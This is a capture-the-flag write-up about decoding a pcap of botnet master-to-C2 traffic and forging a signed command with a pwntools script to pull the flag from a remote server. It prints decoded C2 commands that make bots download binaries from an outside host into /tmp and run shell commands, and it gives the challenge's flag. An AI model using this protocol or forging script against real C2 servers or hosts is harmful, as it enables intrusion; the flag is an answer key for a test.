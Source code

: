 #### Challenge:

Hi, executive senior investigator! 

We have managed to get a rare catch - a traffic dump of issuing commands for the C2 server by its master! Glory to the network specialists of unnamed company. Try to find out how this communication works. [botnet_master.tar.xz](./botnet_master.tar.xz ":ignore")

Our network analytics report that one of currently online C2 servers can be found on IP `78.128.216.92` on `TCP/20220`.

Good luck!

---

#### Solution:

```bash
tshark -r ./master.pcap  -T fields -e data  -Y 'tcp'  > communication.txt
```

```python
#!/usr/bin/env python3
import base64

with open('communication.txt', mode='r') as f:
    for l in f.readlines():
        l = l.strip()
        if len(l) > 0:
            l = bytes.fromhex(l)
            header_len = l[:8].hex()
            l = l[8:]
            l = base64.b64decode(l)[::-1].decode("utf-8")
            try:
                l = bytes.fromhex(l).decode("utf-8")
                print(header_len, l[8:])
            except:
                l = bytes.fromhex(l[16:]).decode("utf-8")
                print(header_len, l)
                pass
```

- after decoding the communication we can see that `kl5puyj43brf7iso` can perform commands: `wait` `download` `info` `execute`

```console
message length       client         command                                 sha384 of $client + ;; + $command
---------------------------------------------------------------------------------------------------------------------------------------------------------
0000000000000168 kl5puyj43brf7iso;;wait;;*;;5;;944f8b5a851f3ee8c4c8d0a30ca2f2b94cc6a3371b9ca09c4634d2da4884c44e5afb7ea7329ce724e38d07d7a4ebcfeb
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f0 kl5puyj43brf7iso;;download;;*;;/tmp/update;;http://198.19.220.13:80/update2.bin;;d954e7c208079d348f7763176a0a65b6b43f01c49439b970a7e73ab2d59c0a000c8cff64981f1e918ba110cd1de7dd24
0000000000000048 command accepted;;
00000000000001d0 kl5puyj43brf7iso;;download;;*;;/tmp/key;;http://198.19.220.13:80/key;;17dfdf78c676a747ed0640f6b01b1693ccb1bf0ad915ac9b04e2fdace5e109402f67cd7499b028216a07c2c839d4f5fd
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f8 kl5puyj43brf7iso;;download;;0hpxc5sdo9kgne64;;/tmp/e53;;http://198.19.220.13:80/e53;;6d855614bc506728ec6015b27d1f195307bf20874896f23c5b3b7fe22005d74eb82d4740209b1be17e2de0ff3d5055f1
0000000000000048 command accepted;;
0000000000000200 kl5puyj43brf7iso;;download;;0hpxc5sdo9kgne64;;/tmp/flag;;http://198.19.220.13:80/flag;;cfb8ad2096b87f07ef3154e198862bab81bce63cba14fd1ecd01ac83c849a42df494dd3b64793f4fad8cc02aa21ec61e
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
0000000000000190 kl5puyj43brf7iso;;wait;;0hpxc5sdo9kgne64;;30;;b7894e9dfb8e92c804fd463d0f3fc1d674a448291a8f049a40a2bed111a0a32d5f257c255fcb645cbd553a6e7debf4c3
0000000000000048 command accepted;;
00000000000001a4 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;clients;;c3c832bc83fa5d291559487932c5f57d35e838dfe9ec385b49dd45e0a28095738012082401d8b35e55411a25a1acfb96
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f0 kl5puyj43brf7iso;;download;;*;;/tmp/update;;http://198.19.220.13:80/update2.bin;;d954e7c208079d348f7763176a0a65b6b43f01c49439b970a7e73ab2d59c0a000c8cff64981f1e918ba110cd1de7dd24
0000000000000048 command accepted;;
0000000000000180 kl5puyj43brf7iso;;execute;;*;;ls /etc;;b8d4cd29e64dbf3cec215e6444ef8d5eff5df0f75389fb564ecb13008a6738a681a1f3cfe1ef3699cd9a5809eb7fa9f6
0000000000000048 command accepted;;
```

- after replaying some of the `commands` we noticed that the server sometimes spits out `flag` for `kl5puyj43brf7iso;;info;;78.128.216.92.20220;;clients`

```python
#!/usr/bin/env python2
import base64
import hashlib
import struct
from pwn import *

def parse(msg):
    msg = msg[8:]
    msg = base64.b64decode(msg)[::-1]
    print(msg.decode('hex')[8:])


def bake(msg):
    digest = hashlib.sha384(msg).hexdigest()
    msg = ('\x00\x00\x00\x00\x00\x00\x00\x00' +msg + ";;" +digest ).encode('hex')
    msg = msg[::-1]
    msg = base64.b64encode(msg)
    return struct.pack(">Q", len(msg)) + msg


with remote('78.128.216.92', 20220) as r:
    r.sendline(bake('kl5puyj43brf7iso;;info;;78.128.216.92.20220;;clients'))
    msg = r.recv()
    parse(msg)
```

```bash
./solve.py | grep -e 'FLAG{.*}'
```

---

<details><summary>FLAG:</summary>

```
FLAG{uLHI-3Zq1-kOHx-FGR1}
```

</details>
<br/>
